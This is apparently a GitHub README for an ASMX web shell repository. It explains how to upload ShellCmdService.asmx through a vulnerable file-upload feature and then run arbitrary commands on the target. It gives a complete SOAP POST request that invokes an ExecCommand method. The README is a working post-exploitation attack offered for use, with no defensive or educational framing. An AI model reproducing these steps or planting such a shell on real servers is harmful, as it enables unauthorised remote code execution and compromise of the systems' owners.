 # asmx reverse shell

This repository contains an asmx reverse shell for achieving code execution using file upload functionality.

## Steps for Code Execution

1. **Upload the Reverse Shell File:**
   - Upload `ShellCmdService.asmx` to the target machine. This can be done through a vulnerable file upload functionality on a web application.

2. **Execute Commands:**
   - Send a POST request to the server using Burp Suite.

   Example request:

   ```bash
   POST /ShellCmdService.asmx HTTP/1.1
   Host: 127.0.0.1
   Content-Type: text/xml
   Content-Length: 347

   <?xml version="1.0" encoding="utf-8"?>
   <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
     <soap:Body>
       <ExecCommand xmlns="http://tempuri.org/">
         <cmd>Command</cmd>
       </ExecCommand>
     </soap:Body>
   </soap:Envelope>

Replace `127.0.0.1` with the actual host and modify <cmd>`Command`</cmd> with the command you want to execute on the target system.

Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or create a pull request.
